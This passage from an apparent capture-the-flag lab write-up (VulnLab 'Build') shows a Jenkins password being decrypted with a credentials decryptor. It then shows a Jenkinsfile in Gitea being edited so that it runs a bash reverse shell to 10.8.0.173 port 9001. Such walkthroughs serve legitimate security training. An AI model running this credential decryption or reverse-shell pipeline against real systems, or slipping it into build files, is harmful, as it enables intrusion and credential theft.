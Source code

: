 ```
<id>e4048737-7acd-46fd-86ef-a3db45683d4f</id>
<description></description>
<username>buildadm</username>
<password>{AQAAABAAAAAQUNBJaKiUQNaRbPI0/VMwB1cmhU/EHt0chpFEMRLZ9v0=}</password>
<usernameSecret>false</usernameSecret>
```

Since we have all the required files needed to decrypt this hash, let's move them all to our base directory for easier access.

```
└─$ jenkins-credentials-decryptor/bin/jenkins-credentials-decryptor -m master.key -s hudson.util.Secret -c config.xml -o json
[
  {
    "id": "e4048737-7acd-46fd-86ef-a3db45683d4f",
    "password": "[...snip...]",
    "username": "buildadm"
  }
]
```

It seems that this specific file decryption script was able to decrypt the password successfully. The password was returned in a JSON format as seen above, which we can now use to access the `buildadm` user on Gitea.

# Build -> RCE

Now that we have access to this user on Gitea, we can take a look at the `Jenkinsfile` script within their repository.

![](/images/vulnlab/build-vl/d.png)

You can see the respective repository on the right side of the page, or we can access it as we did before in the `Explore` tab. 

Within the `Jenkinsfile`, we can select the `Edit` icon to the right of the file to alter it.

![](/images/vulnlab/build-vl/e.png)

The file itself contains a small script that seems to be running `sh '/bin/true'`. You can do some research onto `Jenkinsfiles` to see if there are any reverse shells that we can upload. I found however that you can enclose multiple line scripts within a directory block, to where I got the impression from [here](https://stackoverflow.com/questions/38143485/how-do-i-make-jenkins-2-0-execute-a-sh-command-in-the-same-directory-as-the-chec).

Let's use a simple reverse shell to exploit this, you can find them on [Revshells](https://www.revshells.com/).

```
pipeline {
    agent any

    stages {
        stage('Do nothing') {
            steps {
                sh '''
                bash -c '/bin/bash -i >& /dev/tcp/10.8.0.173/9001 0>&1'
                '''
            }
        }
    }
}
```
